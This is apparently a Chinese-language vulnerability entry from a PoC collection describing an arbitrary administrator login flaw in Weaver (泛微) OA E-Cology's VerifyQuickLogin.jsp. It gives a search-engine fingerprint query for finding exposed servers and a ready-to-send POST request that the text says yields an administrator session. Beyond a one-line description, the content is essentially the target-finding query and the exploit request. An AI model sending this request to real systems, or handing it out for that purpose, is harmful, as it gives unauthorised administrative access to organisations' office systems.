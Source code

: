 # 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

产品主页

![image-20220824142008751](images/202208241420826.png)

验证POC

```
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![image-20220824142028221](images/202208241420269.png)